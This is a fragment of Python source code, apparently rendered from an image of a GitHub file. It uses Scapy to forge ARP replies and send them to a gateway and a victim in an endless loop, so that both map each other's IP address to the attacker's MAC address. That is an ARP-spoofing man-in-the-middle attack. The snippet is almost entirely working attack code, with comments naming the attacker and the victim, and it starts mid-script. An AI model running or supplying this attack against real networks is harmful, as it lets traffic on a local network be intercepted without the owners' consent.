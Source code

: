 \begin{verbatim}
go1 = Ether(dst=gateway_mac,     #sending to gateway
	src=my_mac) / reply1     #origin at attacker's mac


reply2 = ARP(op=ARP.is_at,       #forging arp reply
	hwsrc=my_mac,            #attacker's mac as gateways's
	psrc=gateway_ip,         #gateway's IP to attacker's mac
	hwdst=victim_mac,        #telling victim
	pdst=victim_ip)          #victim IP

go2 = Ether(dst=victim_mac,      #sending to victim
	src=my_mac) / reply2     #origin at attacker's mac

#==============================================================
# Change MAC in ARP Tables of the Gateway and the Victim
#==============================================================
i = 0
while  1:
	i = i+1
	print("ARP SPOOFING #" + str(i))
	
	print(go1.summary())
	sendp(go1, verbose = 2)  #send ARP packet to gateway
	
	print(go2.summary())
	sendp(go2, verbose = 2)  #send ARP packet to victim
	
	print()
	time.sleep(randint(5, 10)) #random sleep
                                   #otherwise too much traffic

\end{verbatim}

